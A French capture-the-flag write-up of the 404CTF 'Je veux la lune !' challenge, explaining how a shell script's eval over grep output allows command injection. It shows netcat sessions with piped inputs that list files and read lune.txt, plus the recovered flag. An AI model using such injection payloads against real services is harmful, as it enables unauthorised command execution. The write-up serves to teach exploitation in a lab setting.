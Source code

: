 # Je veux la lune !

<img alt="énoncé du challenge" src="enonce.png" width=500>

Le fichier fourni : [donne_moi_la_lune.sh](donne_moi_la_lune.sh)

Le script recherche les lignes contenant le mot saisi, sans tenir compte de la casse, dans le fichier `informations.txt` (via les options `-wie` du `grep`).

Et en restitue le résultat via un `eval`. On va donc pouvoir réaliser une injection de commande.

Etape 1 : récupération du contenu du fichier `informations.txt`
- saisie = `.*`

```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
.*
Caligula, tu es le PDG de Imperium Romanum Enterprises, tu devrais le savoir...

Caius c'est toi ! Caligula !

Lepidus est un actionnaire dont tu as licensié le fils, rappelle-toi... Je pense qu'il t'en veut.

Cherea fait partie de ceux qui te comprennent le mieux... Malheureusement il n'a pas l'air de t'apprécier pour autant. J'ai l'impression qu'il fait de tout son possible pour te voir disparaître.

Drusilla est morte, laisse-la reposer en paix.

Caesonia est ta maîtresse ?? Comment as-tu pu l'oublier ?! Tu travailles trop... C'est peut-être ta dernière alliée par les temps qui courent.

Scipion ne t'aimait pas trop initialement à cause de la façon dont tu as traité son père... Mais maintenant il a l'air fasciné par tes idéaux.

Senectus ? C'est le vieil actionnaire que tu ridiculises depuis 3 ans. Il s'est lassé à force.

chlmine ? hihi

De qui d'autre tu veux que je te parle ?
```

Rien de très intéressant.

Etape 2 : vérification de la présence du fameux fichier `lune.txt` dans le répertoire courant
- saisie = `tutu informations.txt | ls *`

```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
tutu informations.txt | ls *
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
donne_moi_la_lune.sh
informations.txt
informations.txt
lune.txt

De qui d'autre tu veux que je te parle ?
```

Le fichier est bien présent.

Etape 3 : affichage du contenu du fichier `lune.txt`
- saisie = `tutu informations.txt | cat lune.txt`

```bash
$ nc challenges.404ctf.fr 31215
Bonjour Caligula, ceci est un message de Hélicon. Je sais que les actionnaires de ton entreprise veulent se débarrasser de toi, je me suis donc dépêché de t'obtenir la lune, elle est juste là dans le fichier lune.txt !

En attendant j'ai aussi obtenu des informations sur Cherea, Caesonia, Scipion, Senectus, et Lepidus, de qui veux-tu que je te parle ?
tutu informations.txt | cat lune.txt
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
/app/donne_moi_la_lune.sh: fork: retry: Resource temporarily unavailable
404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}
Caligula, tu es le PDG de Imperium Romanum Enterprises, tu devrais le savoir...

Caius c'est toi ! Caligula !

Lepidus est un actionnaire dont tu as licensié le fils, rappelle-toi... Je pense qu'il t'en veut.

Cherea fait partie de ceux qui te comprennent le mieux... Malheureusement il n'a pas l'air de t'apprécier pour autant. J'ai l'impression qu'il fait de tout son possible pour te voir disparaître.

Drusilla est morte, laisse-la reposer en paix.

Caesonia est ta maîtresse ?? Comment as-tu pu l'oublier ?! Tu travailles trop... C'est peut-être ta dernière alliée par les temps qui courent.

Scipion ne t'aimait pas trop initialement à cause de la façon dont tu as traité son père... Mais maintenant il a l'air fasciné par tes idéaux.

Senectus ? C'est le vieil actionnaire que tu ridiculises depuis 3 ans. Il s'est lassé à force.

chlmine ? hihi
De qui d'autre tu veux que je te parle ?
```

Le flag est donc : `404CTF{70n_C0EuR_v4_7e_1Ach3R_C41uS}`
